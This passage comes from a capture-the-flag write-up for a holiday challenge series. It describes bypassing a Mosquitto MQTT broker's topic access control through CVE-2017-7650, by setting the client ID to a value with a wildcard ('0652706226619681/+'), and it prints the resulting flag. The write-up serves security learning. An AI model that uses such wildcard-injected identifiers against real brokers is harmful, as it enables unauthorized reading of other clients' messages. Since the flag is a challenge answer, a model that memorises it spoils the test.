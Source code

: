    $ ./day15.py 
    Connecting with 0652706226619681
    rc: 0
    $SYS/broker/version 0 mosquitto version 1.4.11 (We elves are super-smart and know about CVE-2017-7650 and the POC. So we made a genious fix you never will be able to pass. Hohoho)



#### CVE-2017-7650

[CVE-2017-7650](https://bugs.eclipse.org/bugs/show_bug.cgi?id=516765)
involves passing of wildcards into clientids / usernames. The fact that
the elves claim to have a genious fix means this is almost certainly the
path. I needed to look for a way to get access to this channel with the
right username. I went back to subscribing to `HV19/gifts/{clientid}`,
but this time, I set my clientid to `0652706226619681/+`. When I ran
this, I got the flag:



    $ ./day15.py 
    Connecting with 0652706226619681/+
    rc: 0
    HV19/gifts/0652706226619681/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r} 0 Congrats, you got it. The elves should not overrate their smartness!!!
    HV19/gifts/0652706226619681/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r} 0 Congrats, you got it. The elves should not overrate their smartness!!!
    ^C



**Flag: `HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r}`**

## Day 16

### Challenge

  -----------------------------------------------------------------------------------------------------------
  ![](/img/hv19-ball16.png)   HV19.16 B0rked Calculator
  ------------------------------------------------------- ---------------------------------------------------
